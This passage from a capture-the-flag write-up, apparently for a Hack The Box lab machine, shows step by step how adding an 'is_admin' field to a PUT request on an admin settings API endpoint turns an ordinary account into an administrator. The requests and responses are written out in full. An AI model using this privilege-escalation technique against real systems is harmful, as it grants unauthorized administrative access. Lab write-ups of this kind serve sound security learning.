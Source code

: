 ### Abusing admin endpoint

On going to `/auth` we get `false` and that's obvious since our user isn't really an admin. Let's try PUT method and make our user an admin.

If we try:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
```

We get:

```json
{"status":"danger","message":"Invalid content type."}
```

Most of the times the content-type is json for such endpoints, let's try it:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
<SNIP>
Content-Type: application/json
<SNIP>
```

We get:

```json
{"status":"danger","message":"Missing parameter: email"}
```

Let's add our emai to the request body:

```json
{
  "email": "khan@2million.htb"
}
```

We get:

```json
{"status":"danger","message":"Missing parameter: is_admin"}
```

Let's add `is_admin` parameter as well:

```json
{
  "email": "khan@2million.htb",
  "is_admin": 1
}
```

We get:

```json
{"id":13,"username":"khan","is_admin":1}
```

We are now admin, you could also verify it by going to `/api/v1/admin/auth`.
